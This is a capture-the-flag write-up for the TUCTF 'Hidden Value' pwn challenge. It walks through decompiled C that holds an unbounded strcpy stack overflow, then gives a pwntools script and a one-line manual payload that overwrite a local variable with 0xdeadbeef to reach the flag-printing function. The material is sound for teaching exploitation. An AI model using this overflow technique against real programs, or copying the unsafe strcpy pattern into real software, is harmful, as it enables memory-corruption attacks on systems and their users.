 # Hidden Value

## Challenge Description
```text
Easy

There's a hidden value in this program, can you find it?
nc chal.tuctf.com 30011
```

## Protections
The NX is enabled so can't execute shellcode on the stack but it won't bother us
```console
┌──(vein㉿vein)-[~/tuctf/pwn_hidden-value]
└─$ checksec hidden-value 
[*] '/home/vein/tuctf/pwn_hidden-value/hidden-value'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## First Look
We run the program and that what it looks like:
```console
┌──(vein㉿vein)-[~/tuctf/pwn_hidden-value]
└─$ ./hidden-value            
Enter your name: leo
Hello, leo
! Nothing special happened.
```
## Static Analysis in Ghidra

We open the program in Ghidra and we go directly to main to see what is happening
```c

undefined8 main(void)

{
  char local_78 [112];
  
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  printf("Enter your name: ");
  fgets(local_78,100,stdin);
  greet_user(local_78);
  return 0;
}
```
We see that after we insert our name in the program,one function is called with it as function's input -> greet_user(local_78);

```c
void greet_user(char *param_1)

{
  char local_38 [44];
  int local_c;
  
  local_c = 0x12345678;
  strcpy(local_38,param_1);
  if (local_c == L'\xdeadbeef') {
    hidden_command();
  }
  else {
    printf("Hello, %s! Nothing special happened.\n",local_38);
  }
  return;
}
```

```c
void hidden_command(void)

{
  char local_78 [104];
  FILE *local_10;
  
  puts("Congratulations! You have executed the hidden command.");
  local_10 = fopen("flag","r");
  fgets(local_78,100,local_10);
  printf("The flag is: %s\n",local_78);
  return;
}
```
Here is the problem. We don't have immediately in the main a buffer overflow but in the buffer of main will cause a bof in greet_user() cause in the
first one the buffer size is 112 and the others is 44. So after 44 bytes we have a bof and we can overwrite the value of local c to deadbeef to execute
hidden_command() funtion that will give us the flag

## Exploitation

Here is the python script

```python
#!/usr/bin/env python3
from pwn import *

p = process('./hidden-value')  # local now cause i'm doing the writeup long time after the ctf :) 
#p = remote('chal.tuctf.com', 30011) 
param = 0xdeadbeef # the word that we want to inject to execute hidden_command() and take the flag
padding = b'a' * 44

payload = flat(
	padding,
	param
	)

p.sendline(payload)
print(p.recvall())
```

```console
┌──(vein㉿vein)-[~/tuctf/pwn_hidden-value]
└─$ ./exploit.py
[+] Starting local process './hidden-value': pid 2908
[+] Receiving all data: Done (109B)
[*] Stopped process './hidden-value' (pid 2908)
b'Enter your name: Congratulations! You have executed the hidden command.\nThe flag is: fake{fl4g_f0r_t3st1ng}\n\n'
```

I also made manual payload for fun
```sh
┌──(vein㉿vein)-[~/tuctf/pwn_hidden-value]
└─$ python2 -c print"'a' * 44 + '\xef\xbe\xad\xde'"> payload

┌──(vein㉿vein)-[~/tuctf/pwn_hidden-value]
└─$ ./hidden-value < payload                                
Enter your name: Congratulations! You have executed the hidden command.
The flag is: fake{fl4g_f0r_t3st1ng}

zsh: segmentation fault  ./hidden-value < payload
```

The original flag was: TUCTF{pr4cti4l_buffer_overrun}








